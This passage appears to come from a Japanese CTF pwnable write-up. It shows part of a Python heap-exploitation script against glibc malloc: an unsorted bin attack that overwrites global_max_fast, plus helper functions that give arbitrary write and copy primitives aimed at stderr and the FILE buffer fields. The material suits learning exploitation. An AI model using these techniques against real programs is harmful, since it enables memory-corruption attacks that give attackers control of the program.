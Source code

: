 ```python: exploit.py
    _IO_buf_end,
    _allocate_buffer,
    __more_core
]:
    malloc('E', size_malloc(addr))
    free('E')
malloc('E', 0x10)

malloc('F', 0x410)
malloc('G', 0x10)
free('F')
malloc('H', 0x420)

pad18h = b'a' * 0x18

# 1: unsorted bin attackによるglobal_max_fastの改竄
free('B')
read(
    'A',
    pad18h + 
    pack(0x421) + 
    pack(0) + 
    pack(global_max_fast - 0x10)[:2])
malloc('B', 0x410)

# 2: stderrの改竄

# 指定されたアドレスに任意の値を書き込む
def edit(addr: hex, x: bytes):
    read('C', pad18h + size_chunk(addr))
    # dst: D
    free('D')
    # dst: D -> x
    read('C', pad18h + size_chunk(addr) + x)
    # dst: x
    malloc('D', size_malloc(addr))

# 指定されたアドレスに指定されたアドレスから値をコピーする
def copy(dst: hex, src: hex, tamper: bytes):
    # dst: D -> E
    read('D', pad18h + size_chunk(dst))
    free('E')
    read('C', pad18h + size_chunk(dst))
    free('D')

    # dst: D -> D -> D ...
    read('C', pad18h + size_chunk(dst) + pack(0xb0)[:1])
    
    malloc('D', size_malloc(dst))
    malloc('I', size_malloc(dst))

    read('C', pad18h + size_chunk(src))
    # src: D -> x
    # dst: D -> x
    free('D')

    # src: x
    # dst: D -> x
    malloc('D', size_malloc(src))

    # src: x
    # dst: D -> x`
    read('C', pad18h + size_chunk(dst) + tamper) 
```

[^1]: 草野 一彦「解題pwnable」(https://amzn.asia/d/1JasEUa)